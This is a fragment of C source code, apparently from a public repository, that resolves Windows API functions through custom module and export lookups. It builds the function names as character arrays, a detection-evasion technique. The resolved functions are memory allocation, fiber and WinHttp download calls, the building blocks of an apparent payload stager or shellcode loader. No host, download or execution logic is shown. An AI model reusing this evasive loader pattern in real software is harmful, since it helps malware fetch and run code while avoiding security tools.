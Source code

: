 ```c


  /*--------------------------[ Kernel32 ]--------------------------*/

  WCHAR wKernel32[] = L"KERNEL32.DLL";

  CHAR  cVirtualAlloc[]           = { 'V', 'i', 'r', 't', 'u', 'a','l', 'A', 'l', 'l', 'o', 'c', 0 };
  CHAR  cCreateFiber[]            = { 'C', 'r', 'e', 'a', 't', 'e', 'F', 'i', 'b', 'e', 'r', 0 };
  CHAR  cConvertThreadToFiber[]   = { 'C', 'o', 'n', 'v', 'e', 'r', 't', 'T', 'h', 'r', 'e', 'a', 'd', 'T', 'o', 'F', 'i', 'b', 'e', 'r', 0 };
  CHAR  cSwitchToFiber[]          = { 'S', 'w', 'i', 't', 'c', 'h', 'T', 'o', 'F', 'i', 'b', 'e', 'r', 0 };
  CHAR  cLoadLibraryA[]           = { 'L', 'o', 'a', 'd', 'L', 'i', 'b', 'r', 'a', 'r', 'y', 'A', 0 };

  pInstance->Modules.Kernel32           = LdrModuleAddr(wKernel32);

  pInstance->Api.pVirtualAlloc          = LdrFuncAddr(pInstance->Modules.Kernel32, cVirtualAlloc);
  pInstance->Api.pCreateFiber           = LdrFuncAddr(pInstance->Modules.Kernel32, cCreateFiber);
  pInstance->Api.pConvertThreadToFiber  = LdrFuncAddr(pInstance->Modules.Kernel32, cConvertThreadToFiber);
  pInstance->Api.pSwitchToFiber         = LdrFuncAddr(pInstance->Modules.Kernel32, cSwitchToFiber);
  pInstance->Api.pLoadLibraryA          = LdrFuncAddr(pInstance->Modules.Kernel32, cLoadLibraryA);
  /*--------------------------[ WinHttp ]--------------------------*/

  CHAR cWinHttp[] = { 'W', 'i', 'n', 'H', 't', 't', 'p', '.', 'd', 'l', 'l', 0};

  CHAR cWinHttpOpen[]            = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'O', 'p', 'e', 'n', 0 };
  CHAR cWinHttpConnect[]         = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'C', 'o', 'n', 'n', 'e', 'c', 't', 0 };
  CHAR cWinHttpOpenRequest[]     = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'O', 'p', 'e', 'n', 'R', 'e', 'q', 'u', 'e', 's', 't', 0 };
  CHAR cWinHttpReadData[]        = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'R', 'e', 'a', 'd', 'D', 'a', 't', 'a', 0 };
  CHAR cWinHttpReceiveResponse[] = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'R', 'e', 'c', 'e', 'i', 'v', 'e', 'R', 'e', 's', 'p', 'o', 'n', 's', 'e', 0 };
  CHAR cWinHttpSendRequest[]     = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'S', 'e', 'n', 'd', 'R', 'e', 'q', 'u', 'e', 's', 't', 0 };
  CHAR cWinHttpQueryHeaders[]    = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'Q', 'u', 'e', 'r', 'y', 'H', 'e', 'a', 'd', 'e', 'r', 's', 0 };
  CHAR cWinHttpCloseHandle[]     = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'C', 'l', 'o', 's', 'e', 'H', 'a', 'n', 'd', 'l', 'e', 0 };

  pInstance->Modules.WinHttp   = pInstance->Api.pLoadLibraryA(cWinHttp);

  pInstance->Api.pWinHttpOpen            = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpOpen);
  pInstance->Api.pWinHttpConnect         = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpConnect);
  pInstance->Api.pWinHttpOpenRequest     = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpOpenRequest);
  pInstance->Api.pWinHttpReadData        = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpReadData);
  pInstance->Api.pWinHttpReceiveResponse = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpReceiveResponse);
  pInstance->Api.pWinHttpSendRequest     = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpSendRequest);
  pInstance->Api.pWinHttpQueryHeaders    = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpQueryHeaders);
  pInstance->Api.pWinHttpCloseHandle     = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpCloseHandle);
}
```